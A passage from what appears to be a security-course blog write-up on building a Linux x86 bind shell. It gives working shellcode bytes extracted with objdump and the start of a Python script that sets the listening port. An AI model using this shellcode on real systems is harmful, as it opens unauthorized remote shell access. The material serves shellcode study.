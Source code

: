 Its Demo Time! Let’s compile and run

[![Bind Shell Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/250832196?dnt=1&app_id=122963 "Click to Watch!")

Now that we know it works, let’s go ahead and generate shellcode and then create python script that takes port number as an input and add it to our shellcode.

```sh
ihack4falafel@falafel:~/Desktop# objdump -d ./BindShell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xd2\x31\xf6\x50\xb0\x66\xfe\xc3\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\x5b\x5f\x52\x66\x68\x07\xe2\x66\x53\x6a\x10\x51\x56\x89\xe1\xcd\x80\x5a\xb0\x66\x80\xc3\x02\xcd\x80\x50\x50\xb0\x66\x43\x52\x89\xe1\xcd\x80\x93\x31\xc9\x80\xc1\x02\xb0\x3f\xcd\x80\xfe\xc9\x79\xf8\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
ihack4falafel@falafel:~/Desktop#
```

Here’s the script:

```python
#!/usr/bin/python
#---------------------------------------------------------------------------------------------#
# Script        = BindShell.py                                                                #
# SLAE-ID       = SLAE-1115                                                                   #
# Description   = Custom Bind Shell with configurable port                                    #
# Date          = 1/12/2018                                                                   #
# Author        = @ihack4falafel                                                              #
# Usage         = python BindShell.py <port>                                                  #
#---------------------------------------------------------------------------------------------#

import sys

#---------------#---------#
W  = '\033[0m'  # White   #
P  = '\033[35m' # Purple  #
Y  = '\033[33m' # Yellow  #
#---------------#---------#

# Check port input
if len(sys.argv) < 2:
  print Y+ "Usage               :" + P+  " python BindShell.py <port>     " +W
  print Y+ "Example             :" + P+  " python BindShell.py 1337       " +W
  sys.exit(0)

port = int(sys.argv[1])
```